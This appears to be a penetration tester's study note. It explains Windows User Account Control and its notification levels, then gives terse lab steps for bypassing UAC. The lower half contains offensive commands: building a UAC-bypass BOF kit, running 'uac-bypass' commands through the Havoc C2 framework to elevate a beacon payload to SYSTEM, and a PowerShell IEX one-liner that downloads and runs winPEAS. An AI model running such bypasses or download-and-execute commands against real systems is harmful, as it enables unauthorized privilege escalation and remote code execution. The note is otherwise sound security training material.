

# UAC - User Account Control (Privilege Escalation)

User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.

## How UAC Works

1. **Permissions and Elevation**
When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.

2. **Secure Desktop**
In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.

3. **Levels of Notification**
UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).

## User Account Control (UAC) has four levels of notification settings:

1. **Always notify**: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.

2. **Notify me only when programs try to make changes to my computer**: This is the `DEFAULT` level. It notifies you when programs try to make changes to your computer or install software.

3. **Notify me only when programs try to make changes to my computer (do not dim my desktop)**: Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.

4. **Never notify**: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.

You can adjust these settings by moving the slider in the User Account Control Settings window.



# MITRE Reference


Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

 


https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
